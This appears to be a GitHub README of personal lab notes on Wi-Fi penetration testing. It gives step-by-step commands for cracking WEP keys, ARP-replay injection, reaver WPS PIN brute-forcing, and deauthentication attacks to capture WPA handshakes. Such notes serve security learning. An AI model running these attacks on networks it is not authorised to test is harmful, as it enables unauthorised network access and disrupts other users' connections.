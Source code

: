 # Wireless Network Penetration Testing

## Objective

Finding weaknesses in Wifi networks and exploiting vulnerabilities in their encryption protocols (e.g., WEP, WPA, WPA2).


### Skills Learned

- Finding 5Gz and 2.5Gz wireless networks around me
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng
- Crunch
- bettercap

### Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

>The mode will be Monitor now

1. Finding the 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

2. Find packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

3. Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
4. Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
5. Copy the key and remove the : and that would be the wifi password.

**If the network is not busy we need to follow the steps below: -**

1. We need to capture data from the WEP network and write it in a file.
```bash
 airodump-ng --bssid B4:75:0E:36:6A:9E --channel 11 --write basic_wep wlan0
```
2. We will need to commmunicate with the WEP network by creating a Fake Authentication attack using aireplay-ng
```bash
aireplay-ng --fakeauth 0 -a B4:75:0E:36:6A:9E -h 6E:3D:AC:84:DB:A0 wlan0
```
>the first MAC is the target and the second MAC is the USB adapter.
>If you want to know the permanent MAC address of the USB adapter
```bash
macchanger -s wlan0
Current MAC:   ba:1f:40:bc:19:d4 (unknown)
Permanent MAC: 34:7d:e4:40:83:86 (unknown)
```
3. We need to create an ARP Request preplay attack to generate new packets
```bash
aireplay-ng --arpreplay -b B4:75:0E:36:6A:9E -h ba:1f:40:bc:19:d4 wlan0
```
4. We will then crack the file we created to find the password.
```bash
aircrack-ng arpreplay-01.cap
```

### Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
>Not all routers will be cracked with these steps.

**Method for capturing handshake**

1. Find on 5G and 2.4G networks and find the network with WPA/WPA2 and get the BSSID
```bash
airdump-ng --band abg wlan0
```
2. Write a file via **airodump-ng**.
```bash
airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
3. Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
> The number after the --deauth is the number of packets you want to send to the target.
> The first MAC is the target and the second MAC of the client you want to disconnect (will be under station).

4. The handshake WPA will be saved in the file we created wpa_handshake.cap
5. We will create a wordlist of passwords possibilities using the tool **Crunch**. Then read the file
```bash
crunch 1 3 abc123 -o test_wordlist.txt
cat test_worklist.txt
```

### Another way to get WPA passcodes (Wireless Access with Bettercap on Kali Linux) - four way handshake

- Change the wireless adapter to monitor mode
- activate bettercap -iface and activate net.recon
- activate wifi.recon and can see the access points of the environment we are sniffing by using **wifi.show**
- then we activate some other modules
```bash
set net.sniff.verbose true
set net.sniff.filter ether proto 0x888e
set net.sniff.output wpa.pcap
```
- We the deauth the SSID we want
``` bash
wifi.deauth <SSID of the wifi network>
```

- We wait until we see hanshakes are captured by bettercap
- 

 
￼
